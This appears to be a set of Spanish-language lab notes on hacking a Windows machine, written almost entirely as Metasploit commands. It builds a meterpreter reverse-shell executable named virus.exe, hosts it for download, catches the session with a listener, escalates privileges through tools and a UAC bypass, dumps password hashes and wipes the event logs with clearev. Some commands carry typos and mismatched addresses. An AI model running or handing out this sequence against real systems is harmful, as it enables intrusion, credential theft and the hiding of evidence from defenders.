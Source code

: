 ## Hackeo de sistemas

- exploitdb.com : para vulnerabilidades
- El proceso es generar el payload que dejaremos en el equipo win, mientras estoy a la escucha con msfconsole paarq eu cuando clique el payload poder tener acceso al equipo mediante una shell reversa estableciendo la conexión vnc
- Para crear el payload

> msfvenom -p windows/metrpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=10.10.1.13 LPORT=444 -o /home/attack/virus.exe

- Generamos un link para la descarga

> mkdir /var/www/html/share
> chmod -R 755 /var/www/html/share
> chown - R www-data: www-data /var/home/html/share
- Lo copio en una ruta de mi servidor ftp
- Para la escucha

> msfconsole
> use exploit/multi/handler
> show options
> set payload windows/meterpreter/reverse_tcp
> set LHOST 10.10.1.133
> set LPORT 444
> exploit

- Para escalar privilegios uso beroot
- Para acceder a una carpeta con privilegios de root necesito el pass y añadir admin@ a la barra de navegación

> smb://admin@10.10.1.11 //me pide password

- Puedo subir el archivo beroot al equipo windows una vez iniciada la sesión con meterpreter

> upload /home/attack/Desktop/beroot.exe

- Escribo shell para abrir una shell de windws

- Esto lo sube a la carpeta Downloads de windows, lo ejecuto
- Tambie´n puedo usar Gohstpad - compiled binaries, y subir el archivo seatbelt.exe
- Puedo poner otros grupos como remote, para el acceso remoto

> seatbelt.exe -group=system -outputfile="C:\temp\out.txt"

- Descargo el out.txt
- **Ahora, en la shell de meterpreter**
- Para extraer los passwords hasheados

> run post/windows/gather/smart_hashdump

- No hay privilegios suficientes! 
- Para subir privilegios

> getsystem -t 1

- debo dejar la sesión en el background y salir de meterpreter

> background

- En msf uso otro exploit

> use exploit/windows/local/bypassuac_fodhelper
> show options

- Para volver a la sesion anterior
> set SESSION 1

- Uso el mismo payload

> set payload windows/meterpreter/reverse_tcp

- Tengo establecida la sesión y el payload
- Establezco el LHOST y el LPORT con set

> set LHOST 10.10.1.13
> set LPORT 444

> exploit

- Esto abre una segunda sesión

> getsystem -t 1

- Para ver los privilegios que Tengo

> getuid

- YA tenemos privilegios de ADMIN!!
- Ahora puedo hacer uso del hash_dump para obtener los passwords
- Para borrar mis registros

> clearev